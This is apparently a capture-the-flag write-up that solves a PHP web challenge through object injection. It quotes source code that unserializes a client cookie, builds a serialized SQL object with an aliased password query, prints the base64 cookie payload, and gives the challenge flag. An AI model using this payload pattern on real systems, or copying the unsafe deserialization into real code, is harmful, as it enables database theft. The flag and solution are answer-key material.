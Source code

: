 # Level 4
## Task
![image](https://user-images.githubusercontent.com/44528004/132701258-bb744fd5-f757-42b7-88c9-edc1dbaa1a56.png)

## Solution
### Initial observation
The first source:
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

The second source:
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

From these sources, we can see that the `leet_hax0r` cookie is an associative array with `ip` as a property. This array is then serialized and encoded in base64 before being transmitted to the client.

When the server receives a request, it decodes the `leet_hax0r` cookie value, unserializes it and stored in `$sess_data`. Then, it checks whether `$sess_data` is an array and its `ip`'s value is of the IP address of the server. If either is wrong, **CANT HACK US!!!** is returned. Also, if the `id` parameter is set and is of integer, it will perform a SQL query.

In the second source code, the interesting here is the `__destruct()` method because it will be called when a `SQL` object is deleted. In addition, the `username` column from the result of the SQL query will be echoed.

### Exploitation
From the above information, we can guess that this application is vulnerable to **object injection**.  
In order to execute an arbitrary SQL query, we need to craft ourselves an `SQL` object whose properties are similar to those of the `$sql` on the server.
```php
class SQL {
    public $query = '';
    public $conn;
}

$inj = new SQL();
```
As SQL is not an array, we completely bypass the first `if..else..` block:
```php
if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
    die('CANT HACK US!!!');
}
```

When giving `1` as the **User id**, we get **Username: flag**; therefore, we might want the `password` of this user.  
Our query would be
```sql
SELECT password FROM users WHERE username='flag';
```

However, only the column named `usernamed` is echoed back, we need an alias:
```sql
SELECT password as username FROM users WHERE username='flag';
```

Now, our `$inj` object would be:
```
$inj->query = "SELECT password as username FROM users WHERE username='flag';";
```

Let's serialize and encode this object:
```
php > $sql->query = "SELECT password as username FROM users WHERE username='flag';";
php > echo urlencode(base64_encode(serialize($sql)));
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NjE6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lPSdmbGFnJzsiO3M6NDoiY29ubiI7Tjt9
```

Modify the `leet_hax0r` cookie value to our value.  

![image](https://user-images.githubusercontent.com/44528004/132871370-ff4b11c1-f9d4-41fe-9a12-62b43a5c71d4.png)

And got the result:  

![image](https://user-images.githubusercontent.com/44528004/132871429-b6e5279b-2545-4c27-97cc-0e4287c82801.png)
> Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`
